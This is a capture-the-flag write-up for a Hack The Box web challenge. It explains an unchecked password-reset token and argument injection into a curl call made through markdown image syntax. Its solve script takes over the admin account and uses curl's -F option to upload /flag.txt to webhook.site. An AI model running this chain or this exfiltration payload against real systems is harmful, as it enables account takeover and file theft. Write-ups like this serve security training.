 ```yaml
---
created: 2024-12-13T14:12
updated: 2024-12-15T17:06
points: 775
---
```


After using the app as intended, I think the solution is to reset someone else's password.

And after a bit of looking around this caught my attention.

```js [email-app/routes/index.js]
for (let item of response.data.items) {
    const recipients = item.Raw.To || [];
    if (recipients.some((recipient) => recipient === 'test@email.htb')) {
        mails.push(item);
    }
}
```

What if there are multiple recipients?

```python
url = "http://94.237.58.196:45364/reset-password/request"
response = requests.post(url, json={
    "email": ["test@email.htb", "admin@armaxis.htb"]
})
print(response.text) # User not found.
```

Sadly this didn't work.

And... I just realized that there is no email-token validation.

```js [challenge/routes/index.js]
const reset = await getPasswordReset(token);
if (!reset) return res.status(400).send("Invalid or expired token.");
```

Login Success.

## Command Injection?

There appears to be command injection.

```js [challenge/routes/index.js]
router.post("/weapons/dispatch", authenticate, async (req, res) => {;
  ...
  const { name, price, note, dispatched_to } = req.body;
  ...
    const parsedNote = parseMarkdown(note);
  ...
});
```

```js [challenge/markdown.js]
try {
    const fileContent = execSync(`curl -s ${url}`);
    const base64Content = Buffer.from(fileContent).toString('base64');
    return `<img src="data:image/*;base64,${base64Content}" alt="Embedded Image">`;
} catch (err) {
    console.error(`Error fetching image from URL ${url}:`, err.message);
    return `<p>Error loading image: ${url}</p>`;
}
```

The regex is simply matching anything that is of the format `![...](...)`, easy injection.

`curl` can be used to upload files via `curl -F "file=@path" url`

So to be elegant, I will not use random bash injection techniques.

## Solve

```python
import regex as re
import requests
s = requests.session()
t1 = "http://94.237.58.196:45364"  # main site
t2 = "http://94.237.58.196:44521"  # the email site

payload = '-F "file=@/flag.txt" https://webhook.site'

s.post(f"{t1}/reset-password/request", json={"email": "test@email.htb"})
token = re.search('Use this token to reset your password: ([0-9a-f]+)', s.get(t2).text).group(1)
s.post(f"{t1}/reset-password", json={"token": token, "newPassword": "password", "email": "admin@armaxis.htb"})

print(s.post(f"{t1}/login", json={"email": "admin@armaxis.htb", "password": "password"}).text)
print(s.post(f"{t1}/weapons/dispatch", json={"name": "hello", "price": 123, "note": f"![]({payload})", "dispatched_to": "admin@armaxis.htb"}).text)
```

```flag
HTB{l00k0ut_f0r_m4rkd0wn_LF1_1n_w1ld!_93d0b106b05aee3323f0425d988419d8}
```
